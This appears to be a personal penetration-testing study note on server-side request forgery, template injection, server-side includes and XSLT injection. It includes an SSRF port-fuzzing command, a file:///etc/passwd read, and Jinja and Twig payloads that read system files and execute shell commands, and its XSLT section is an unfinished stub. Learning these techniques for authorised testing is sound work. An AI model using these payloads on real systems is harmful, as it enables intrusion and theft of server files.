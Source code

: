 Navigation: [[Pentesting]]

---
# Table of Contents
1. Server-Side Request Forgery
2. Server-Side Template Injection
3. Server-Side Includes Injection
4. XSLT Injection

# SSRF
SSRF Is a vulnerability where attackers can manipulate a web app into sending unauthorized requests from the server. This usually happens when an app makes HTTP requests to other servers based on user input.

The following URI schemes are commonly used in SSRF:
- `HTTP/S` used to fetch content from other endpoints. The main use case for this is to bypass WAFs or access restricted endpoints.
- `file://` reads a file from the local system, can be used for local file inclusion.
- `gopher://` which is used to send arbitrary bytes to a specified address.

**Enumeration**
When observing requests through Burp, we might notice something like the following:
![[ssrf_identify_2.webp]]

We can see a secondary request being made here. To confirm if we can control this request, try changing the request to our own IP and start a netcat listener. If the netcat listener gets a request, we've confirmed that SSRF exists.

Beyond this, if we can see the contents of the request that was made, the SSRF is not blind.

Upon confirming the vulnerability, we can now use `FFUF` to fuzz:
```shell
ffuf -w ./ports.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01" -fr "Failed to connect to"
```

**Exploitation**
First, we may be able to access restricted endpoints. We can fuzz the local subnet as needed. We can also do a directory brute force on the web server itself. We'll first need to find out which server is being used by accessing a non-existent page:
![[ssrf_exploit_2.webp]]

From there we can simply fuzz the local directory using [this](/opt/SecLists/Discovery/Web-Content/raft-small-words.txt) wordlist. We can also try LFI by supplying a URL such as `file:///etc/passwd` and seeing if this gets returned.

We can also use gopher to interact with internal services. Creating URIs for use with gopher can take a while, luckily there's a [tool](https://github.com/tarunkant/Gopherus) for that.

**Mitigating SSRF**
Reference the [OWASP Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)
# SSTI
Web apps utilizing templates to generate responses can be vulnerable to SSTI. When an attacker can inject template code, SSTI is available. 

`PayloadAllTheThings` has a nice [guide](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md) for exploiting SSTI. There's also one by [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#twig-php) that goes a bit more in depth.

A very nice tool we can use is [`SSTImap`](https://github.com/vladko312/SSTImap).

**Enumeration**
The most effective way to identify SSTI is to inject some special characters and check the behavior of the web app. A test string we can use that should work against most templates is:
```
${{<%[%'"}}%\.
```

Once we've confirmed the vulnerability exists, we should identify which template engine is being used next. Use the flowchart below:
![[Pasted image 20241130092307.png]]

Follow the red arrow if the web app errors out.

**Jinja Exploits**
```jinja2
# Information disclosure
{{ config.items() }}

# Dump built in functions
{{ self.__init__.__globals__.__builtins__ }}

# LFI
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}

# RCE
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

HackTricks made a very nice [guide](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti) for Jinja specific SSTI.

**Twig Exploits**
```twig
# Information disclosure
{{ _self }}

# LFI
{{ "/etc/passwd"|file_excerpt(1,-1) }}

# RCE 
{{ ['id'] | filter('system') }}
```
# SSI Injection
Server-Side Includes allows web apps to make dynamic content on HTML pages. It's supported by both Apache and IIS. Usually we can infer that it's being used based off of web extensions such as `.shtml`, `.shtm`, and `.stm`. Some configurations allow arbitrary file extensions to be used.

**SSI Directives**
SSI uses directives to generate content dynamically. It consists of the following components: name, parameter name, and value. It uses the following syntax:
```ssi
<!--#name param1="value1" param2="value" -->

Here's an example of config
<!--#config errmsg="Error!" -->

```

A list of payloads can be found [here](https://swisskyrepo.github.io/PayloadsAllTheThings/Server%20Side%20Include%20Injection/#methodology). There's also a guide by [HackTricks](https://book.hacktricks.xyz/pentesting-web/server-side-inclusion-edge-side-inclusion-injection).

# XSLT Injection
This vulnerability involves manipulating XSLT transformations on the server. XSLT is used to transform XML documents into other formats.


---
Navigation: [[Pentesting]]